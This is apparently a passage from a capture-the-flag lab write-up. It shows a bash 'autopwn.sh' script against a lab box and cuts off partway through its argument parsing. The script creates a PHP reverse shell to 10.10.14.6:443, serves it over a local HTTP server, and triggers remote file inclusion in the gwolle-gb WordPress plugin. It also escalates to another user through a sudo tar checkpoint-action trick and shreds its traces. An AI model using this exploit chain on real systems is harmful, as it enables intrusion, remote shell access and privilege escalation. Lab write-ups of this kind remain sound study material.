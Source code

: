 > **Attacker Machine**:

```bash
nvim autopwn.sh
cat !$
```

> **autopwn.sh**:

```bash
#!/bin/bash

function ctrl_c(){
  echo -e "\n\n[!] Exiting ...\n"
  exit 1
}

# Ctrl+c
trap ctrl_c INT

function help_panel(){
  echo -e "\n[!] Use: $0 -u www-data/onuma\n"
}

function createMaliciousFile(){
cat << EOF > wp-load.php
<?php
  system("bash -c 'bash -i >&/dev/tcp/10.10.14.6/443 0>&1'");
?>
EOF
}

function createMaliciousFileOnuma(){
cat << EOF > wp-load.php
<?php
  system("echo '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.6/443 0>&1' > /dev/shm/onuma.sh");
  system("sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=\"bash /dev/shm/onuma.sh\"");
?>
EOF
}

function engageBox(){
  if [ "$(echo $username)" == "www-data" ]; then
    createMaliciousFile
    python3 -m http.server 80 &>/dev/null &
    curl -s -X GET "http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.6/"
  elif [ "$(echo $username)" == "onuma" ]; then
    createMaliciousFileOnuma
    python3 -m http.server 80 &>/dev/null &
    curl -s -X GET "http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.6/"
  else
    echo -e "\n[!] Wrong username\n"
  fi
  scrub -p dod wp-load.php &>/dev/null
  shred -zun 10 wp-load.php &>/dev/null
  kill -9 $(lsof -i:80 | grep "python" | awk '{print $2}') &> /dev/null
}

declare -i parameter_counter=0; while getopts ":u:h:" arg; do
  case $arg in
    u) username=$OPTARG; let parameter_counter+=1;;
    h) helpPanel;;
```